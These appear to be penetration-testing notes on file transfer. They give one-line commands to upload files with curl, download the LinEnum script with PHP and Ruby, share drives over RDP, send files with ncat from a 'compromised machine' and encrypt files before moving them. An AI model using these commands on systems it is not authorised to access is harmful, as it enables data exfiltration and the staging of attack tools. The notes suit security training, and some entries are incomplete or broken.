 5. curl -X POST [https://10.10.15.240/upload](https://10.10.15.240/upload "https://10.10.15.240/upload") -F 'files=@/home/hello.txt' --insecure

---

Download Files From Online

Method 1 - Python

- python2.7 -c  
    [Recording 2024-03-11 163237.mp4](../_resources/86b9212b5a464ae79911c885fefaa599.mp4 "../_resources/86b9212b5a464ae79911c885fefaa599.mp4")  
    -python3 -c  
    Same syntax

Method 2 - PHP  
`- php -r '$file = file_get_contents("[URL]"); file_put_contents("[file]",$file);''`

Method 3 - Ruby

- ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("[https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")")))'

RDP file Tranfer

1. xfreerdp /v: [IP] /u: [user] /drive:linux,/home  
    Create the RDP session with the addition of creating a share folder within tsclient/linux

Ncat file transfer

1. ncat -l -p 8000 --recv-only > [file]  
    On the compromised machine set up ncat to listen on port 8000 for this particular file
2. nc --send-only [IP] 8000 < [file]

File Encryption on Linux

1. openssl enc -aes256 -iter 100000 -pbkdf2 -in [filepath/file] -out [file]

- Encrypt a file ready for transfer

2. openssl enc -d -aes256 -iter 100000 -pbkdf2 -in [filepath/file] -out [file]

File Encryption on Windows

1. Transfer Script using any of the above methods
2. Import-Module .\Invoke-AESEncryption.ps1
3. Invoke-AESEncryption -Mode Encrypt -Key "[password]" -Path .[filepath]